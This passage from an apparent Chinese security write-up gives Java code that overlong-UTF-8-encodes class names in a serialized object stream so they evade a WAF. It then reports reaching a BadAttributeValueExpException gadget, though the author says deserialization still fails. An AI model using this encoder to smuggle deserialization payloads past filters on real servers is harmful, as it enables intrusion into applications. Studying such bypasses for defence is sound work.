        map.put('m', new int[]{0xc1, 0xad});
        map.put('n', new int[]{0xc1, 0xae});
        map.put('o', new int[]{0xc1, 0xaf});
        map.put('p', new int[]{0xc1, 0xb0});
        map.put('q', new int[]{0xc1, 0xb1});
        map.put('r', new int[]{0xc1, 0xb2});
        map.put('s', new int[]{0xc1, 0xb3});
        map.put('t', new int[]{0xc1, 0xb4});
        map.put('u', new int[]{0xc1, 0xb5});
        map.put('v', new int[]{0xc1, 0xb6});
        map.put('w', new int[]{0xc1, 0xb7});
        map.put('x', new int[]{0xc1, 0xb8});
        map.put('y', new int[]{0xc1, 0xb9});
        map.put('z', new int[]{0xc1, 0xba});
        map.put('A', new int[]{0xc1, 0x81});
        map.put('B', new int[]{0xc1, 0x82});
        map.put('C', new int[]{0xc1, 0x83});
        map.put('D', new int[]{0xc1, 0x84});
        map.put('E', new int[]{0xc1, 0x85});
        map.put('F', new int[]{0xc1, 0x86});
        map.put('G', new int[]{0xc1, 0x87});
        map.put('H', new int[]{0xc1, 0x88});
        map.put('I', new int[]{0xc1, 0x89});
        map.put('J', new int[]{0xc1, 0x8a});
        map.put('K', new int[]{0xc1, 0x8b});
        map.put('L', new int[]{0xc1, 0x8c});
        map.put('M', new int[]{0xc1, 0x8d});
        map.put('N', new int[]{0xc1, 0x8e});
        map.put('O', new int[]{0xc1, 0x8f});
        map.put('P', new int[]{0xc1, 0x90});
        map.put('Q', new int[]{0xc1, 0x91});
        map.put('R', new int[]{0xc1, 0x92});
        map.put('S', new int[]{0xc1, 0x93});
        map.put('T', new int[]{0xc1, 0x94});
        map.put('U', new int[]{0xc1, 0x95});
        map.put('V', new int[]{0xc1, 0x96});
        map.put('W', new int[]{0xc1, 0x97});
        map.put('X', new int[]{0xc1, 0x98});
        map.put('Y', new int[]{0xc1, 0x99});
        map.put('Z', new int[]{0xc1, 0x9a});


        bytesMap.put('$', new int[]{0xe0,0x80,0xa4});
        bytesMap.put('.', new int[]{0xe0,0x80,0xae});
        bytesMap.put(';', new int[]{0xe0,0x80,0xbb});
        bytesMap.put('A', new int[]{0xe0,0x81,0x81});
        bytesMap.put('B', new int[]{0xe0,0x81,0x82});
        bytesMap.put('C', new int[]{0xe0,0x81,0x83});
        bytesMap.put('D', new int[]{0xe0,0x81,0x84});
        bytesMap.put('E', new int[]{0xe0,0x81,0x85});
        bytesMap.put('F', new int[]{0xe0,0x81,0x86});
        bytesMap.put('G', new int[]{0xe0,0x81,0x87});
        bytesMap.put('H', new int[]{0xe0,0x81,0x88});
        bytesMap.put('I', new int[]{0xe0,0x81,0x89});
        bytesMap.put('J', new int[]{0xe0,0x81,0x8a});
        bytesMap.put('K', new int[]{0xe0,0x81,0x8b});
        bytesMap.put('L', new int[]{0xe0,0x81,0x8c});
        bytesMap.put('M', new int[]{0xe0,0x81,0x8d});
        bytesMap.put('N', new int[]{0xe0,0x81,0x8e});
        bytesMap.put('O', new int[]{0xe0,0x81,0x8f});
        bytesMap.put('P', new int[]{0xe0,0x81,0x90});
        bytesMap.put('Q', new int[]{0xe0,0x81,0x91});
        bytesMap.put('R', new int[]{0xe0,0x81,0x92});
        bytesMap.put('S', new int[]{0xe0,0x81,0x93});
        bytesMap.put('T', new int[]{0xe0,0x81,0x94});
        bytesMap.put('U', new int[]{0xe0,0x81,0x95});
        bytesMap.put('V', new int[]{0xe0,0x81,0x96});
        bytesMap.put('W', new int[]{0xe0,0x81,0x97});
        bytesMap.put('X', new int[]{0xe0,0x81,0x98});
        bytesMap.put('Y', new int[]{0xe0,0x81,0x99});
        bytesMap.put('Z', new int[]{0xe0,0x81,0x9a});
        bytesMap.put('[', new int[]{0xe0,0x81,0x9b});
        bytesMap.put(']', new int[]{0xe0,0x81,0x9d});
        bytesMap.put('a', new int[]{0xe0,0x81,0xa1});
        bytesMap.put('b', new int[]{0xe0,0x81,0xa2});
        bytesMap.put('c', new int[]{0xe0,0x81,0xa3});
        bytesMap.put('d', new int[]{0xe0,0x81,0xa4});
        bytesMap.put('e', new int[]{0xe0,0x81,0xa5});
        bytesMap.put('f', new int[]{0xe0,0x81,0xa6});
        bytesMap.put('g', new int[]{0xe0,0x81,0xa7});
        bytesMap.put('h', new int[]{0xe0,0x81,0xa8});
        bytesMap.put('i', new int[]{0xe0,0x81,0xa9});
        bytesMap.put('j', new int[]{0xe0,0x81,0xaa});
        bytesMap.put('k', new int[]{0xe0,0x81,0xab});
        bytesMap.put('l', new int[]{0xe0,0x81,0xac});
        bytesMap.put('m', new int[]{0xe0,0x81,0xad});
        bytesMap.put('n', new int[]{0xe0,0x81,0xae});
        bytesMap.put('o', new int[]{0xe0,0x81,0xaf});
        bytesMap.put('p', new int[]{0xe0,0x81,0xb0});
        bytesMap.put('q', new int[]{0xe0,0x81,0xb1});
        bytesMap.put('r', new int[]{0xe0,0x81,0xb2});
        bytesMap.put('s', new int[]{0xe0,0x81,0xb3});
        bytesMap.put('t', new int[]{0xe0,0x81,0xb4});
        bytesMap.put('u', new int[]{0xe0,0x81,0xb5});
        bytesMap.put('v', new int[]{0xe0,0x81,0xb6});
        bytesMap.put('w', new int[]{0xe0,0x81,0xb7});
        bytesMap.put('x', new int[]{0xe0,0x81,0xb8});
        bytesMap.put('y', new int[]{0xe0,0x81,0xb9});
        bytesMap.put('z', new int[]{0xe0,0x81,0xba});

    }


    public void charWritTwoBytes(String name){
        //将name进行overlong Encoding
        byte[] bytes=new byte[name.length() * 2];
        int k=0;
        StringBuffer str=new StringBuffer();
        for (int i = 0; i < name.length(); i++) {
            int[] bs = map.get(name.charAt(i));
            bytes[k++]= (byte) bs[0];
            bytes[k++]= (byte) bs[1];
            str.append(Integer.toHexString(bs[0])+",");
            str.append(Integer.toHexString(bs[1])+",");
        }
        System.out.println(str.toString());
        try {
            writeShort(name.length() * 2);
            write(bytes);
        } catch (IOException e) {
            throw new RuntimeException(e);
        }

    }
    public void charWriteThreeBytes(String name){
        //将name进行overlong Encoding
        byte[] bytes=new byte[name.length() * 3];
        int k=0;
        StringBuffer str=new StringBuffer();
        for (int i = 0; i < name.length(); i++) {
            int[] bs = bytesMap.get(name.charAt(i));
            bytes[k++]= (byte) bs[0];
            bytes[k++]= (byte) bs[1];
            bytes[k++]= (byte) bs[2];
            str.append(Integer.toHexString(bs[0])+",");
            str.append(Integer.toHexString(bs[1])+",");
            str.append(Integer.toHexString(bs[2])+",");
        }
        System.out.println(str.toString());
        try {
            writeShort(name.length() * 3);
            write(bytes);
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }


    protected void writeClassDescriptor(ObjectStreamClass desc)
            throws IOException {
        String name = desc.getName();
        boolean externalizable = (boolean) getFieldValue(desc, "externalizable");
        boolean serializable = (boolean) getFieldValue(desc, "serializable");
        boolean hasWriteObjectData = (boolean) getFieldValue(desc, "hasWriteObjectData");
        boolean isEnum = (boolean) getFieldValue(desc, "isEnum");
        ObjectStreamField[] fields = (ObjectStreamField[]) getFieldValue(desc, "fields");
        System.out.println(name);
        //写入name（jdk原生写入方法）
//        writeUTF(name);
        //写入name(两个字节表示一个字符)
//        charWritTwoBytes(name);
        //写入name(三个字节表示一个字符)
        charWriteThreeBytes(name);


        writeLong(desc.getSerialVersionUID());
        byte flags = 0;
        if (externalizable) {
            flags |= ObjectStreamConstants.SC_EXTERNALIZABLE;
            Field protocolField =
                    null;
            int protocol;
            try {
                protocolField = ObjectOutputStream.class.getDeclaredField("protocol");
                protocolField.setAccessible(true);
                protocol = (int) protocolField.get(this);
            } catch (NoSuchFieldException e) {
                throw new RuntimeException(e);
            } catch (IllegalAccessException e) {
                throw new RuntimeException(e);
            }
            if (protocol != ObjectStreamConstants.PROTOCOL_VERSION_1) {
                flags |= ObjectStreamConstants.SC_BLOCK_DATA;
            }
        } else if (serializable) {
            flags |= ObjectStreamConstants.SC_SERIALIZABLE;
        }
        if (hasWriteObjectData) {
            flags |= ObjectStreamConstants.SC_WRITE_METHOD;
        }
        if (isEnum) {
            flags |= ObjectStreamConstants.SC_ENUM;
        }
        writeByte(flags);

        writeShort(fields.length);
        for (int i = 0; i < fields.length; i++) {
            ObjectStreamField f = fields[i];
            writeByte(f.getTypeCode());
            writeUTF(f.getName());
            if (!f.isPrimitive()) {
                invoke(this, "writeTypeString", f.getTypeString());
            }
        }
    }

    public static void invoke(Object object, String methodName, Object... args) {
        Method writeTypeString = null;
        try {
            writeTypeString = ObjectOutputStream.class.getDeclaredMethod(methodName, String.class);
            writeTypeString.setAccessible(true);
            try {
                writeTypeString.invoke(object, args);
            } catch (IllegalAccessException e) {
                throw new RuntimeException(e);
            } catch (InvocationTargetException e) {
                throw new RuntimeException(e);
            }
        } catch (NoSuchMethodException e) {
            throw new RuntimeException(e);
        }
    }

    public static Object getFieldValue(Object object, String fieldName) {
        Class<?> clazz = object.getClass();
        Field field = null;
        Object value = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
            value = field.get(object);
        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        }
        return value;
    }
}

```

然后就是一波操作

我们看看之后的数据



可以看到乱码就心满意足了



然后成功过了这个 waf

成功到了 BadAttributeValueExpException 的 readobject 方法



然后这里会报错，反序列化不能成功，修改脚本的话还差一点，不过主要是学个思路，后续脚本问题后面再研究吧
